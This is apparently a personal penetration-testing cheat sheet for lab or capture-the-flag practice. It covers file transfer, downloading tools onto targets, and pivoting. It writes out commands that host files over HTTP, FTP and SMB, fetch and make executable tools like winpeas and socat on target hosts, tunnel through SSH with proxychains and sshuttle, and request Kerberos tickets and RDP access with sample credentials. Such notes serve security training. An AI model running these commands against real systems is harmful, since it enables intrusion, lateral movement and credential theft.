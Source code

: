 
>[! warning] Tool called Hack-tools Extension

Transfer methods Column 
![[Pasted image 20241120063050.png | 450]]


- [ ] File Transfers 

Hosting Python / SMB / ftp
```
python3 -m http.server 80
```

```
python -m pyftpdlib 21
```

```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```


<hr>


Downloading
Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.8\Hackthebox
```



Navigate | Browser


Certutil command 
```
certutil.exe -urlcache -f http://192.168.205.128/winpeas.exe winpeas.exe
```


Curl Command
```
curl 10.200.105.200/socat -o /tmp/socat && chmod +x /tmp/socat
```


Wget
```
wget <LOCAL-IP>/socat -O /tmp/socat
```


Powershell
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

FTP
```
ftp 10.10.10.10
```


>[!bug ] Metasploit & Evil-winrm

Upload & Download option


<hr>


- [ ] Maintaining Access Overview
![[Pasted image 20241122102719.png]]



- [ ] Pivoting Walkthrough Proxy-Chains (S Shuttle)

```
ssh -f -N -D 9050 -i pivot root@10.10.155.5
```

```
proxychains nmap -p88 10.10.10.225 
```


Scan for open ports
```
proxychains nmap 10.10.10.225 
```


Some times this scan doesn't show anything but you know
something is there
```
proxychains nmap 10.10.10.225 -sT
```


Kerberoasting through Proxy-chains:
```
proxychains GetUserSPNS.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.255 -request
```


RDP through Proxy-chains:
```
proxychains xfreerdp /u:administrator /p"'Hacker321!' /v:10.10.10.225
```

sshuttle
```
sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot" 
```

```
nano /etc/proxychains4.conf
```


<hr>


- [ ] Cleaning Up

![[Pasted image 20241122113059.png]]

```

```